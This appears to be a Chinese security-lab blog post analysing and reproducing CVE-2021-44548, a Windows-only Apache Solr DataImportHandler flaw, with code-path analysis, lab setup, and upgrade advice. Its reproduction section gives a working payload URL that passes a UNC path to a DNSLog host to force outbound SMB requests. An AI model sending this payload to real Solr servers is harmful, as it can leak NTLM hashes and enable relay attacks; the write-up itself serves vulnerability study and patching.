



# CVE-2021-44548 Apache Solr 敏感信息泄露漏洞分析及复现 - 合天网安实验室 - 博客园

> 原文：[`www.cnblogs.com/hetianlab/p/16288314.html`](https://www.cnblogs.com/hetianlab/p/16288314.html)

## 　前言

　由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，文章作者不为此承担任何责任。

　如果文章中的漏洞出现敏感内容产生了部分影响，请及时联系作者，望谅解。

## 　一、漏洞原理

### 　漏洞简述

　Apache Solr 是一个开源的搜索服务，使用 Java 语言开发，主要基于 HTTP 和 Apache Lucene 实现的。

　2021 年 12 月 18 日，Apache 发布安全公告，Apache Solr 中存在一个信息泄露漏洞（CVE-2021-44548），该漏洞影响了 8.11.1 之前的所有 Apache Solr 版本（仅影响 Windows 平台）。Apache Solr 的 DataImportHandler 中存在一个不正确的输入验证漏洞，可利用 Windows UNC 路径从 Solr 主机调用网络上的另一台主机的 SMB 服务，或导致 SMB 攻击，从而造成：

*   敏感数据泄露，如系统用户哈希（NTLM/LM 哈希）；

*   在系统配置错误的情况下，SMB 中继攻击可能导致用户在 SMB 共享中被冒充，或导致远程代码执行。

### 　漏洞分析

　根据抓包内容中请求 URL 参数，以及 solrconfig.xml 中可以看到


　漏洞点出于`DataImportHandler#handleRequestBody`

　如果传入的`command=show-config`并且传入`config`不为空则有一个`openResource`操作，且参数可控


　看到`solr-core-8.11.0.jar!\org\apache\solr\core\SolrResourceLoader.openResource`


`this.getInstancePath()`得到的路径为`D:\Apache_Solr\solr-8.11.0\server\solr\core1`

　再执行`resolve("conf")`变成，`D:\Apache_Solr\solr-8.11.0\server\solr\core1\conf`

　再执行`resolve(resource)`时，这里的 WindowsPathType 变成了 UNC



　resolve 逻辑判断 WindowsPathType 是否为绝对路径或 UNC 路径，是则直接返回参数


　resource 以`\\`开头就能使`inConfigDir`完全可控，在`Files.exists`中就会去请求 windows 的 unc 路径

## 　二、漏洞复现实战

### 　影响版本

　Apache Solr < 8.11.1 （仅 Windows）

### 　环境搭建

　Solr 漏洞环境下载地址：

　[`archive.apache.org/dist/lucene/solr/8.11.0/solr-8.11.0.zip`](https://archive.apache.org/dist/lucene/solr/8.11.0/solr-8.11.0.zip)

　1）打开命令行，进入 bin 目录下，运行 solr.cmd start


　2）再另一个命令行面板中执行 solr.cmd create_core -c new_core


　3）然后在 solr-8.11.0\dist 目录中添加三个 jar 包：




　4）在 solr-8.11.0\server\solr\core1\conf\solrconfig.xml 中添加 DataImportHandler 路由


　5）在 C:\Users\Administrator\Downloads\solr-8.11.0\server\solr\core1\conf 目录下新建 data-config.xml 文件，内容如下：

```
<dataConfig>
 <dataSource type="JdbcDataSource"
 driver="com.mysql.jdbc.Driver"
 convertType="true"
 url="jdbc:mysql://IP:Port/test"
 user="XXXX"
 password="XXXX"/>
 <document>
 <entity name="entity" query="SELECT id, title, content, tags FROM test_table" >
 </entity>
 </document>
</dataConfig>
```



　6）重新启动 solr

### 　漏洞复现

　进入 Solr 后台，选择 core 为我们新配置的 core。

　选择 Dataimport，查看 Configuration，可以看到我们新配置的 data-config 的详细信息

　我们点击 reload 并抓包


　查看包内容，可以看到请求如下：


　URL 参数添加参数，构造 payload

　payload：`[`localhost:8983/solr/core1/dataimport?command=show-config&config=`](http://localhost:8983/solr/core1/dataimport?command=show-config&config=)\\xxx\xxx`

　我们添加&expandMacros=false&config=\hdlr07.dnslog.cn\aaa，发送请求：


　在 DNSLog 上可以看到收到请求

### 　漏洞修复

　目前此漏洞已经修复，建议受影响用户升级到 Apache Solr 8.11.1。

　下载链接：

　[`solr.apache.org/downloads.html`](https://solr.apache.org/downloads.html)

　缓解措施：

　确保只有受信任的客户端才能向 Solr 的 DataImporthandler 发出请求

## 　结束语

　本文主要介绍了 CVE-2021-44548 Apache Solr 敏感信息泄露漏洞的原理分析及复现过程，漏洞主要利用 DataImportHandler 存在输入验证缺陷，最终利用 SMB 服务导致敏感信息泄露。

******　更多靶场实验练习、网安学习资料，[请点击这里>>](https://www.hetianlab.com/)******

搜索

复制